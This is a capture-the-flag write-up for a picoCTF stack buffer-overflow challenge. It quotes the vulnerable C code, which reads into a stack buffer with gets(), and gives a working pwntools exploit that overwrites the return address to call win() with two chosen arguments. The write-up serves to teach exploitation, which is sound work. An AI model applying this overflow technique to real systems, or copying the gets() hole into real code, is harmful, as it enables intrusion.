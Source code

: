 # Description

Control the return address and arguments

```c
// same as the previous challenge.
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

We have to overwrite the arguments to the values "0xCAFEF00D" && "0xF00DF00D" to get the flag:

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```
Check vuln.c,

so the exploit will be like:
```python
from pwn import *

r = remote('saturn.picoctf.net', 60850)
#p = process('./buffer_overflow2')

r.recvuntil("Please enter your string:")

win_addr = p32(0x08049296)
payload = cyclic(112) + win_addr + cyclic(4) + p32(0xCAFEF00D) + p32(0xF00DF00D)

r.sendline(payload)
print r.recvall()
```
